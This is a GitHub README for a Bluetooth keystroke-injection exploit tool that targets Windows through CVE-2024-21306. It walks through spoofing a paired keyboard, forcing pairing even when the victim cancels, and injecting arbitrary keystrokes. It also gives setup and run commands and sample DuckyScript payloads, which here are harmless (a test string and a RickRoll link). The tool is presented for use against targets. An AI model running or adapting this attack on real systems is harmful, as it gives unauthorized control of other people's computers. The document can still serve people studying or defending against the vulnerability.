 # BadBlue (Windows)


CVE-2024-21306 BadBlue implementation (Using DuckyScript)

Unauthenticated Peering Leading to Code Execution (Using HID Keyboard)

[This is an implementation of the CVE discovered by marcnewlin](https://github.com/marcnewlin/hi_my_name_is_keyboard)

[And BlueDucky](https://github.com/pentestfunctions/BlueDucky)

## Introduction
BabBlue is a powerful tool for exploiting a vulnerability in Bluetooth devices. By running this script, you can:

1. Load saved Bluetooth devices that are no longer visible but have Bluetooth still enabled.
2. Automatically save any devices you scan.
3. Send payload via ducky script format to interact with devices.

I've successfully run this on any Raspberry Pi 4 and VirtualBox using the CSR 4.0, ORICO 4.0,.. Bluetooth module. It works against various Windows with version lower .3007 .
The Windows computer must be paired with a Bluetooth keyboard, and the keyboard must be switched off (or out of range).

An attacker, using an Ubuntu(Kali can run but not recommend) computer and Broadcom-based Bluetooth adapter(CSR 4.0 maybe can run), spoofs the address of the target keyboard and connects to L2CAP 17 on the Windows computer, while specifying the `NoInputNoOutput` SSP pairing-capability.

The victim sees a notification reading `Add a device` `Tap to set up your <Keyboard Name>`.

If they ignore the notification, nothing happens.

If they click on the notification, they are presented with a Bluetooth pairing-request dialog.

If the victim has the "Add a Bluetooth device" UI open, they will not see a notification, and will instead be immediately presented with the pairing-request as a modal dialog.

The attacker can complete pairing once the pairing-request dialog closes, even if the user clicks `Cancel` or `X`. Once pairing completes, the attacker connects to L2CAP 17 (HID Control).

The attacker then connects to L2CAP 19 (HID Interrupt), and is able to inject arbitrary keystrokes.

## Installation and Usage

### Setup Instructions

```bash
# update apt
sudo apt-get update && sudo apt-get -y upgrade

# install dependencies from apt
sudo apt install -y bluez-tools bluez-hcidump git \
                    python3-pip python3-setuptools \
                    libbluetooth-dev dbus-x11

# configure bluetoothd to run in compatibility mode to support sdptool
sudo sed -i "s|ExecStart=/usr/lib/bluetooth/bluetoothd|ExecStart=/usr/lib/bluetooth/bluetoothd --compat|g" /lib/systemd/system/bluetooth.service
sudo systemctl daemon-reload
sudo systemctl restart bluetooth

# install pybluez
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install
python3 -m pip install pydbus

# build bdaddr from bluez
cd ~
git clone https://github.com/bluez/bluez.git
cd bluez
gcc -o bdaddr tools/bdaddr.c src/oui.c -lbluetooth -I.
sudo cp bdaddr /usr/local/bin/
```

## Running BabBlue
```bash
git clone https://github.com/PhucHauDeveloper/BabBlue.git
cd BabBlue
sudo hciconfig hci0 up
```

1. Pair a Bluetooth keyboard to the target Windows-computer, and turn off the keyboard
2. On the Ubuntu computer, run the PoC: `./BadBlue.py -i <Interface> -k <Keyboard-Address> -c <Windows-Address>`
3. Click on the notification when it appears on the Windows computer
4. Close the pairing-request dialog (or click `Cancel` or `Approve`)
5. If successful, the Ubuntu machine will connect to the Windows machine and inject a nondestructive your payload
   
-k is Keyboard(default my keyboard F4:73:35:7A:4B:BB, you need change it)

-i is interface(default hci0)

-c is target windows devices(type blank tool auto scan for you)


## Duckyscript
Work in Progress:
- Suggest me ideas

## Know Bug
IDK


#### Example payload.txt:
```bash
REM Title of the payload
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()_-=+\|[{]};:'",<.>/?
GUI D
```

```bash
REM Opens RickRoll
DELAY 200
GUI r
DELAY 200
STRING https://www.youtube.com/watch?v=dQw4w9WgXcQ
DELAY 300
ENTER
DELAY 300
```

## Enjoy experimenting with BabBlue!


